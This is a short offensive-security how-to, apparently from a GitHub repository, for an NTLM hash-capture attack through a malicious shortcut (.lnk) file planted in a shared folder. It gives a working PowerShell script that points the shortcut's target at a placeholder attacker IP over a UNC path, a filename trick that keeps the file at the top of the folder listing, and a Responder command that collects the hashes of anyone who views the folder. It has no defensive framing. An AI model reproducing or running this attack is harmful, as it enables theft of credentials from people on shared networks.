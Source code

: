 Create/Place a malicious .lnk file (shortcut) in a shared folder that, when seen (not clicked), sends a hash to the malicious actor. Naming the file with an "@" or "~" at the start of the filename bumps it to the top of the folder in a GUI view.
# How to do it
## Step 1: 
Create the file in Powershell. Replace "[ATTACKER IP]".
```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\[ATTACKER IP]\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
## Step 2
Transfer the file onto the victim machine (if it wasn't created) and move it to a shared folder.
## Step 3: Run responder on attack machine.
```bash
sudo responder -I eth0 -P
```
Once the file is viewed, responder should pick up the hash of the account viewing it.
